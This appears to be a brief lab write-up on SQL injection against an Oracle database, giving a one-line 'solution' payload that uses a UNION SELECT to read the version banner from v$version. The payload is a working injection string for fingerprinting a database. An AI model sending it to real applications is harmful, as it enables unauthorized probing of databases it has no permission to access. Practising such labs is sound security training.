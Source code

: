 ## SQL injection attack, querying the database type and version on Oracle




My Solution: %27+UNION+SELECT+null,banner+FROM+v$version--